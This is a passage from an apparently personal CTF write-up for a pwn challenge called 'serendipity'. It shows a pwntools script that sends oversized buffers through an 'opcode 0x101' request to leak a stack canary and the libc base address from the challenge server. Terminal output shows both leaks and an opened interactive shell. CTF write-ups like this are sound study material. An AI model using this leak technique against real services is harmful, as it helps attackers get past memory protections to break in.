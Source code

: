 This code perform leak heap via `opcode 0x301` but fail in the server :((

We have to leak canary and libc via `opcode 0x101`

```cpp
session=a
buf=session
buf+=p32(0)
buf+=p16(0x30a+1)
buf+=b'moonlit_embrace\0'
buf+=(778+1-len(b'moonlit_embrace\0'))*b'A'


io.send(buf)
data = io.recv()
leak=u64(b'\0'+data[265:])
log.info("canary: " + hex(leak))

session=a
buf=session
buf+=p32(0)
buf+=p16(0x30a+1+7+8)
buf+=b'moonlit_embrace\0'
buf+=(778+8-len(b'moonlit_embrace'))*b'A'
buf+=data[265:]
buf+=b'A'*8

io.send(buf)

data = io.recv()
libc.address=u64(data[264+8+8:].ljust(8, b'\0')) - 0x94ac3
log.info("libc.address: " + hex(libc.address))

```

Here is result:
```cpp
╭─    ~/CTF/Pwnable/2023/wc2023/serendipity    master !1 ?38                                                                       1 ✘  w1n_gl0ry@phis1Ng ─╮
╰─ python3 remote.py                                                                                                                                               ─╯
[*] '/home/w1n_gl0ry/CTF/Pwnable/2023/wc2023/serendipity/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 0 on port 9981: Done
85026bdce60e5a253187b0a061854c0269225675b70fcadd25c7353058ffb4dd
b'auth successfully\n'
[*] canary: 0x89f7373a66e1cd00
[*] libc.address: 0x7f4413600000
[*] Switching to interactive mode
$  
```
